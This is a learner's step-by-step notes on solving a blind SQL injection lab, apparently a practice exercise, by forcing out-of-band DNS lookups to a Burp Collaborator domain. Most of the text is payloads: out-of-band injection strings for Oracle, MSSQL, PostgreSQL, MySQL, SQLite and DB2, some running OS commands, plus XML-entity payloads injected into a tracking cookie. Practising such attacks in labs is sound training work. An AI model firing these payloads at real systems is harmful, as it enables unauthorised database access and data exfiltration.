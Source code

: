 1. GOAL: make a dns request to the outside.
2. get my dns service from burp collaborator.
3. Find the vulnerable parameter, here i was already freaking lost.
4. i've tried these:
5. 
UNION SELECT UTL_INADDR.get_host_address('abc.oastify.com') FROM dual--
UNION SELECT DBMS_LDAP.INIT('abc.oastify.com',80) FROM dual--
UNION SELECT UTL_HTTP.request('http://abc.oastify.com/') FROM dual--
;exec master..xp_dirtree '\\abc.oastify.com\foobar'--
;exec master..xp_fileexist '\\abc.oastify.com\test'--
;exec master..xp_subdirs '\\abc.oastify.com\share'--
DROP TABLE IF EXISTS tmp;
CREATE TABLE tmp(content text);
COPY tmp FROM PROGRAM 'nslookup abc.oastify.com';
COPY (SELECT '') TO PROGRAM 'nslookup abc.oastify.com';
SELECT LOAD_FILE('\\\\abc.oastify.com\\share')--
SELECT '' INTO OUTFILE '\\\\abc.oastify.com\\test'--
SELECT load_extension('//abc.oastify.com/malicious')--
SELECT * FROM sysibm.sysdummy1
WHERE 1 = (SELECT COUNT(*) FROM TABLE(SYSPROC.HTTPGETCLOB('http://abc.oastify.com')) AS t);)
EXECUTE FUNCTION task("system", "nslookup abc.oastify.com");
6. all of them did not give me anything, i looked at the hint and looked into the cheat sheet, there if found (see image 2)
7. grabbed the first one: SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://h5nnagj86o33oxbqhquuydvzwq2hqaez/"> %remote;]>'),'/l') FROM dual
8. and change the value to my collaborator.
9. TrackingId=vPyKqZhnLDfhXNHu'||SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"4chah3qvdbaqvkidod1h502m3d94xvlk.oastify.com">+%25remote%3b]>'),'/l')+FROM+dual||'
10. it didnt work, so i thought maybe the reason is how i concatenate my query, i used union: 
11. 'UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"h5nnagj86o33oxbqhquuydvzwq2hqaez.oastify.com">+%25remote%3b]>'),'/l')+FROM+dual--;
12. this didnt work either..
13. i tried using https:// -> so i can trigger a dns, it didnt work.
14. then realised burp might be using http only.. so i used:
15. 'UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://h5nnagj86o33oxbqhquuydvzwq2hqaez.oastify.com">+%25remote%3b]>'),'/l')+FROM+dual--
16. Lab solved!
17. P.s. i will update this document with detailed explanation why it worked.
